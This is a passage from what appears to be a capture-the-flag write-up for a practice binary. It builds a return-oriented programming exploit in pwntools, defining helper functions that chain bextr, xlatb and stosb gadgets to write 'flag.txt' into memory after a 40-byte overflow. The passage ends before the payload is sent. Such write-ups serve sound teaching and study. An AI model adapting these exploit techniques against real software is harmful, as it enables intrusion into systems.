 

## Writing helper functions
Our plan is clear, but it has quite a lot of steps. Let's make our life a little easier and define some helper functions to create our payload.
First, let's create a function using our `bextr` gadget to move a character from a given address into `rbx`:
```
def movetargetcharintorbx(target):
    """
    0040062a  5a                 pop     rdx {__return_addr}
    0040062b  59                 pop     rcx {arg1}
    0040062c  4881c1f23e0000     add     rcx, 0x3ef2
    00400633  c4e2e8f7d9         bextr   rbx, rcx, rdx
    00400638  c3                 retn     {arg_10}
    """
    # copies rcx into rbx based on offset and length in rdx
    bextrgadget = 0x0040062a
    payload  = p64(bextrgadget)
    payload += p64(0x4000) #rdx offset en len
    payload += p64(target - 0x3ef2) #rcx 
    return payload
```
Here the value `0x4000` that is popped into `rdx` represents offset and length to extract. Bits 7:0 indicate offset 0, and the rest indicate the length, where we want to copy one character.

Next, let's create a function that uses this helper function to write a single character to a given address.
This function contains both the `xlatb` and the `stosb` gadgets. 
It also uses a third gadget, which is as follows: `0x400610: mov eax, 0; pop rbp; ret;`.
This is used simply to set `eax` and thus `al` to 0, which is needed for the `xlatb` gadget.
It also pops `rbp`. Here we simply set some garbage value into `rbp`, which is irrelevant for the exploit.
```
def write_char(char_addr,writable_address):
    set_eax_0_pop_rbp = 0x400610
    xlatb_addr        = 0x400628
    stosb_gadget      = 0x400639 # 0x0000000000400639: stosb byte ptr [rdi], al; ret;

    payload  = movetargetcharintorbx(char_addr)
    payload += p64(set_eax_0_pop_rbp)
    payload += p64(0x4141414141414141) # garbage
    payload += p64(xlatb_addr)
    payload += p64(stosb_gadget)
    return payload
```
Now we can use these functions to perform the attack:
```
io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510


payload = b"A" * 40

# Write flag.txt to memory with characters found in the binary
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
for i, x in enumerate(goal_string):
    print(i,x, hex(char_addrs[x]))
    payload += write_char(char_addrs[x],writable_address+i)


```